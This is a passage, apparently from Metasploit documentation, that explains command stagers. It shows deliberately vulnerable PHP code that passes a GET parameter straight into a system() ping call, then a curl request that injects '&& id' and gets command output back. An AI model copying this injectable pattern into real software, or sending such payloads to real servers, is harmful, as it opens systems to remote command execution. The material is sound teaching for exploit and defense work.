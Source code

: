 # The Vulnerability Test Case
The best way to explain how to use a command stager is probably by demonstrating it. Here we have a command injection vulnerability in example PHP code, something silly you actually might see in enterprise-level software. The bug is that you can inject additional system commands in the system call for ping:
```php
<?php
   if ( isset($_GET["ip"]) ) {
      $output = system("ping -c 1 " . $_GET["ip"]);
      die($output);
   }
?>

<html>
<body>
  <form action = "ping.php" method = "GET">
   IP to ping: <input type = "text" name = "ip" /> <input type = "submit" />
  </form>
   </body>
</html>
```

you the output:
```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
```

OK, now we can abuse that a little and execute another command (id):
```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1+%26%26+id"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# The Msf::Exploit::CmdStager Mixin
Although there are many flavors of mixins/stagers, you only need to include [Msf::Exploit::CmdStager](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/cmd_stager.rb) when writing a Metasploit exploit. The mixin is basically an interface to all command stagers:
```ruby
include Msf::Exploit::CmdStager
```
